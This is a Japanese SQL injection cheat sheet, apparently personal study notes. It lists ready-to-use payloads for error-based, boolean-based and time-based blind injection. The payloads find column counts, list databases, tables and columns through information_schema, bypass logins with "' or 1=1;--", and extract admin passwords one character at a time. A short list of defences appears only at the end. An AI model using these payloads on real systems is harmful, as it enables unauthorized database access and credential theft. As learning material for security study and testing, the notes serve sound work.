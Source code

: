 # SQL インジェクション

## Error Based SQLi

画面で Select している列数を探る

```sql
1 union select 1,2,3
```

存在しないデータと Union したら 1,2,3 が表示されるか？（最初の 1 行だけ画面に表示されるパターン）

```sql
0 union select 1,2,3
```

データベース名

```sql
0 union select 1,2,database()
```

DB 内のテーブル名。group_concat で 1 つにまとめてるのがポイント。

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'データベース名'
```

テーブル内の列名

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'テーブル名'
```

全行を 1 セルに表示する

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

## Blind Based SQLi

DB のデータには興味がなく、ログイン画面をバイパスするような、結果だけを求める場合

```sql
' or 1=1;--
```

## Boolean Based SQLi

データベース名を探索する  
※「このユーザー名は既に存在します」と表示されるような場面で使う

```sql
-- この結果がTrueで
a' UNION SELECT 1,2,3 where database() like '%';--

-- この結果がFalseで
a' UNION SELECT 1,2,3 where database() like 'a%';--

-- この結果がTrueであるとき、sから始まる名前のデータベースが存在することが分かる
-- 2文字目以降も同様に繰り返すことで、全体が判明する
a' UNION SELECT 1,2,3 where database() like 's%';--
```

テーブル名を探索する

```sql
-- Trueであるとき、aから始まるテーブルが存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'データベース名' and table_name like 'a%';--
```

列名を探索する

```sql
-- Trueであるとき、aから始まる列名が存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='データベース名' and TABLE_NAME='テーブル名' and COLUMN_NAME like 'a%';
```

保存されているデータを探索する

```sql
-- Trueであるとき、passwordの1文字目はaであることが分かる
a' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time Based Blind SQLi

Boolean Based と同じだが、結果を画面表示から判別できない場合に、時間遅延で Boolean の判定をする

```sql
-- これがすぐに返り、
a' UNION SELECT SLEEP(5);--

-- これで5秒の遅延が発生する場合、列数が2であることが分かる
a' UNION SELECT SLEEP(5),2;--

-- 遅延が発生する場合、1文字目が4であることが分かる
a' UNION SELECT sleep(5),2 from users where username='admin' and password like '4%';--
```
時間遅延を利用して、Salt、ユーザー名、メールアドレス、パスワードをクラックしているエクスプロイトの例  
https://www.exploit-db.com/exploits/46635

## セキュリティ

- フレームワークの Prepared Statements を使用する
- 入力検証
- ユーザー入力のエスケープ
